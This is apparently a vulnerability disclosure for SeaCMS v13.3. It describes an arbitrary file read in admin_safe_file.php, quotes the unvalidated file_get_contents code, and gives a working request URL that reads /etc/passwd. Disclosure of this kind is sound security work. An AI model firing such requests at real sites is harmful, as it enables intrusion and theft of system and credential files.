 ## Arbitrary File Read and RCE in admin_safe_file.php

### Introduction

SeaCMS v13.3 is vulnerable to an arbitrary file read vulnerability. This vulnerability is located in the utility file `admin_safe_file.php`, where insufficient parameter validation allows attackers to read arbitrary files.

### Vulnerability Analysis

The vulnerability exists in the `admin_safe_file.php` file, where the `file_get_contents` function is used without proper restrictions on the input parameters, leading to arbitrary file read.

The key code is as follows:
```php
if($action=="download" && isset($_GET['file']) && trim($_GET['file'])!="")  
{  
 $file = $_GET['file'];  
 ob_clean();  
 if (@file_exists($file)) {  
  header("Content-type: application/octet-stream");  
     header("Content-Disposition: filename=\"".basename($file)."\"");  
  echo file_get_contents($file);  
 }  
 exit();  
}
```

### Exploitation

By accessing the following URL with the specified parameters, an attacker can read arbitrary files, such as `/etc/passwd`:

```r
ywmba6/admin_safe.php?action=download&file=/etc/passwd
```

As shown in the image below, the contents of `/etc/passwd` are successfully read:

![](./public/9.png)